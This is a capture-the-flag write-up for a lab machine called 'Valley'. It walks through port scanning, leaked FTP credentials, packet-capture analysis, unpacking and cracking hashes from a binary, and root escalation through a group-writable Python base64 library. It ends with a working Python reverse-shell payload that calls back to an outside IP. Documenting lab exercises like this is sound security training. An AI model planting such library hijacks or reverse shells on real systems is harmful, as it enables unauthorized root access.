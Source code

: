 # Valley

### Valley
Nmap scan shows ports 22,80 and 37370 open:

    22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
    |   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
    |_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
    80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    37370/tcp open  ftp     vsftpd 3.0.3
Enumerating website on port 80, I found a note in `/pricing/note.txt`:<br />
![image](https://github.com/user-attachments/assets/d41448e2-b949-42a2-a742-936c4f6096a5)<br />
With further enumeration I find `/static/00`:<br />
![image](https://github.com/user-attachments/assets/cfa3c3ab-5ac7-4387-9103-d5eff5b097eb)<br />
So I go to `/dev1243224123123` and get a login page:<br />
![image](https://github.com/user-attachments/assets/663920c6-689e-4ef1-954e-9ca81a65cb25)<br />
I look at the source code of this page and find even more information inside `/dev.js`:<br />
![image](https://github.com/user-attachments/assets/f4d65eed-1b35-48ac-b7ea-35a3b20cf689)<br />
![image](https://github.com/user-attachments/assets/564efeff-9cc1-4a27-b5d5-6183b7a29dde)<br />
So I'm able to log into the ftp server with credentials `siemDev:california`. The ftp server contains e file with extension `.pcapng`. One is about FTP communication, the other two captured HTTP traffic. I used wireshark to analyzed these packet captures, and, after applying an http filter, I found a POST request containing a set of credentials:<br />
![image](https://github.com/user-attachments/assets/30093f22-43e4-4eee-a116-acc1c7572331)<br />
This got me the first flag. Inside `/home` there's an executable called `valleyAuthenticator`. If I run it it prompts for a username and a password. I want to check if credentials are hardcoded inside this executable. <br />
To do that, I transfer it on my local machine (I called it `auth)`, and analyze it with IDA. I immediately find something from the strings:<br />
![image](https://github.com/user-attachments/assets/92298a32-5c87-4c87-809b-3e3339d2262f)<br />
This binary is packed with UTX. To unpack it from the terminal, I run `upx -d auth`. Now that the code is unpacked, I ask mr. GPT to give me a command to see only the strings that are close to the strings `username` and `password`, because the file is too big. So I run `strings -a auth | grep -i -A 3 -B 3 "username\|password"` and got the following result:<br />
![image](https://github.com/user-attachments/assets/681b17af-0087-43c2-a2bf-ca1f01bd2ea9)<br />
Apparently I found two hash values. I immediately try with crackstation to crack them, and it's successful:<br />
![image](https://github.com/user-attachments/assets/4ae49775-9009-4bae-8c92-bf62e8d776f1)<br />
So I used these credentials to access valley's account with the `su` command. Next, I checked for cronjobs with `cat /etc/crontab`:<br />
![image](https://github.com/user-attachments/assets/48679cab-2d60-429a-bc05-1b931377d994)<br />
A python script is executed by root every minute, and this is the code: <br />
![image](https://github.com/user-attachments/assets/49a1ab22-941e-4da5-9596-f2d7e6b56bf1)<br />
This script takes a set of images inside the `/script` folder and base64 encodes them. Luckily for me, I (valley) am the owner of those images!<br />
![image](https://github.com/user-attachments/assets/b96d0616-51ed-48d3-815d-acb787ece1f0)<br />
This means that I can create my own file named, for example, `p1.jpg` to feed this script. So for example, if I run `echo "test" > p1.jpg` and wait a few seconds, I get:<br />
![image](https://github.com/user-attachments/assets/674900e5-5515-453b-aad0-75a119466f5d)<br />
which is the base64 encoding of `test`. <br /><br />
After contemplating what could be the solution to become root, I realized that the vulnerability actually relies on the fact that the base64 library is owned by the group `valleyAdmin`, which I'm part of. This means that I can just modify the code inside this library, which will be executed whenever the library is invoked.<br />
Run:

        mv /usr/lib/python3.8/base64.py /usr/lib/python3.8/base64.bak.py
        nano /usr/lib/python3.8/base64.py

Inside the new base64 fake library, I put the following code: <br >

        #!/usr/bin/python3
        from os import dup2
        from subprocess import run
        import socket
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.11.85.53",9001)) 
        dup2(s.fileno(),0) 
        dup2(s.fileno(),1) 
        dup2(s.fileno(),2)     
        run(["/bin/bash","-i"])
Now I open a netcat listener on port 9001 and get a reverse root shell after a few seconds.















